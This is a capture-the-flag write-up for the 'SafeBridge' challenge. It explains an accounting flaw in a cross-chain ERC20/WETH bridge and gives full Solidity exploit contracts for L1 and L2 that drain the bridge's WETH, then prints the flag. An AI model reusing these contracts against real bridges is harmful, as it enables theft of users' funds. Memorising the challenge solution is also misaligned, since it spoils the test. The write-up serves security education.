 # SafeBridge (17 solves) (224 points)

![](https://i.imgur.com/mlfmr1P.png)

The goal of this challenge is the drain the bridge in L1 :
```
pragma solidity ^0.8.20;

import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";

contract Challenge {
    address public immutable BRIDGE;
    address public immutable MESSENGER;
    address public immutable WETH;

    constructor(address bridge, address messenger, address weth) {
        BRIDGE = bridge;
        MESSENGER = messenger;
        WETH = weth;
    }

    function isSolved() external view returns (bool) {
        return IERC20(WETH).balanceOf(BRIDGE) == 0;
    }
}
```

It will first deposit 2 ether of WETH to the L1 bridge and bridge them to L2_WETH in the L2
```
    function deploy(address system) internal returns (address challenge) {
        vm.createSelectFork(vm.envString("L1_RPC"));
        vm.startBroadcast(system);
        address relayer = getAdditionalAddress(0);
        L1CrossDomainMessenger l1messenger = new L1CrossDomainMessenger(relayer);
        WETH weth = new WETH();
        L1ERC20Bridge l1Bridge =
            new L1ERC20Bridge(address(l1messenger), Lib_PredeployAddresses.L2_ERC20_BRIDGE, address(weth));

        weth.deposit{value: 2 ether}();
        weth.approve(address(l1Bridge), 2 ether);
        l1Bridge.depositERC20(address(weth), Lib_PredeployAddresses.L2_WETH, 2 ether);

        challenge = address(new Challenge(address(l1Bridge), address(l1messenger), address(weth)));
        vm.stopBroadcast();
    }
```

So there is 2 ether of WETH locked in the L1 bridge

Here is a simple graph showing how the bridge works (bridging tokens from L1 to L2) :

![](https://raw.githubusercontent.com/Kaiziron/real-world-ctf-6th-writeups/main/graph.png)

When the bridges are bridging to another side, it will call the CrossDomainMessenger, which emit events for the relayer to read and relay to another side

When we are bridging from L2 back to L1 :

```
    function _initiateWithdrawal(address _l2Token, address _from, address _to, uint256 _amount) internal {
        IL2StandardERC20(_l2Token).burn(msg.sender, _amount);

        address l1Token = IL2StandardERC20(_l2Token).l1Token();
        bytes memory message;
        if (_l2Token == Lib_PredeployAddresses.L2_WETH) {
            message = abi.encodeWithSelector(IL1ERC20Bridge.finalizeWethWithdrawal.selector, _from, _to, _amount);
        } else {
            message = abi.encodeWithSelector(
                IL1ERC20Bridge.finalizeERC20Withdrawal.selector, l1Token, _l2Token, _from, _to, _amount
            );
        }

        sendCrossDomainMessage(l1TokenBridge, message);

        emit WithdrawalInitiated(l1Token, _l2Token, msg.sender, _to, _amount);
    }
```

It just call the `_l2Token` to get the `l1Token` address, so we can just create and mint our own token and set `l1Token` to L1 WETH and bridge it to L1, the L2 withdrawal will not revert and the relayer will relay it back to L1

However, if we do that, it will underflow in the L1 bridge and revert, because it will subtract the amount from the deposits mapping, and by default the deposits mapping of L1 WETH and our own token will be 0 :

```
    function finalizeERC20Withdrawal(address _l1Token, address _l2Token, address _from, address _to, uint256 _amount)
        public
        onlyFromCrossDomainAccount(l2TokenBridge)
    {
        deposits[_l1Token][_l2Token] = deposits[_l1Token][_l2Token] - _amount;
        IERC20(_l1Token).safeTransfer(_to, _amount);
        emit ERC20WithdrawalFinalized(_l1Token, _l2Token, _from, _to, _amount);
    }
```

But in the L1 bridge `_initiateERC20Deposit()`, it will set the deposits mapping wrongly : 

```
    function _initiateERC20Deposit(address _l1Token, address _l2Token, address _from, address _to, uint256 _amount)
        internal
    {
        IERC20(_l1Token).safeTransferFrom(_from, address(this), _amount);

        bytes memory message;
        if (_l1Token == weth) {
            message = abi.encodeWithSelector(
                IL2ERC20Bridge.finalizeDeposit.selector, address(0), Lib_PredeployAddresses.L2_WETH, _from, _to, _amount
            );
        } else {
            message =
                abi.encodeWithSelector(IL2ERC20Bridge.finalizeDeposit.selector, _l1Token, _l2Token, _from, _to, _amount);
        }

        sendCrossDomainMessage(l2TokenBridge, message);
        deposits[_l1Token][_l2Token] = deposits[_l1Token][_l2Token] + _amount;

        emit ERC20DepositInitiated(_l1Token, _l2Token, _from, _to, _amount);
    }
```

If the `_l1Token` is L1 WETH, it will send the message with L2_WETH as the L2 token no matter what `_l2Token` we set, but it will increase the deposits mapping of L1 WETH and the `_l2Token` we set instead of L2 WETH

So we can just deposit 2 ether of L1 WETH and set `_l2Token` to our own token to increase the deposits mapping of L1 WETH and our own token to 2 ether

Although this will also increase the L1 WETH of L1 bridge, it doesn't matter because we will stll receive L2 WETH on the L2 as the `_l2Token` in the message it is sending to L2 is set to L2 WETH

So we can just withdraw those L2 WETH we received to get back 2 ether of L1 WETH from the L1 bridge, even our deposit did not increase the deposits mapping of L1 WETH and L2 WETH, it won't underflow because the mapping is already set to 2 ether initially in the deploy script when it bridge 2 ether of L1 WETH to L2 WETH

### Exploit (L1) :

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import "./Challenge.sol";
import "./L1/L1ERC20Bridge.sol";
import "./L1/WETH.sol";

contract Exploit {
    address public bridge;
    address public messenger;
    address public weth;
    address public exploitL2;
    Challenge public chall;

    constructor(address _challenge, address _exploitL2) {
        chall = Challenge(_challenge);
        bridge = chall.BRIDGE();
        messenger = chall.MESSENGER();
        weth = chall.WETH();
        exploitL2 = _exploitL2;
    }

    function exploit() public payable {
        require(msg.value == 2 ether, "msg.value != 2 ether");
        WETH(payable(weth)).deposit{value: 2 ether}();
        WETH(payable(weth)).approve(address(bridge), 2 ether);
        L1ERC20Bridge(bridge).depositERC20To(address(weth), exploitL2, exploitL2, 2 ether);
    }
}
```

### Exploit (L2) :

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import {Lib_PredeployAddresses} from "./libraries/constants/Lib_PredeployAddresses.sol";
import {L2StandardERC20} from "./L2/standards/L2StandardERC20.sol";
import "./L2/L2ERC20Bridge.sol";
import "./L2/standards/L2WETH.sol";

contract ExploitL2 is L2StandardERC20 {
    address public bridge = Lib_PredeployAddresses.L2_ERC20_BRIDGE;
    
    constructor() L2StandardERC20(address(0), "ExploitL2", "EXP2") {}

    function exploit(address L1_WETH) public {
        l1Token = L1_WETH;
        _mint(address(this), 2 ether);
        L2StandardERC20(address(this)).approve(bridge, type(uint256).max);
        L2ERC20Bridge(bridge).withdraw(address(this), 2 ether);

        L2WETH(Lib_PredeployAddresses.L2_WETH).approve(bridge, type(uint256).max);
        L2ERC20Bridge(bridge).withdraw(Lib_PredeployAddresses.L2_WETH, 2 ether);
    }
}
```

### Flag :

```
rwctf{yoU_draINED_BriD6E}
```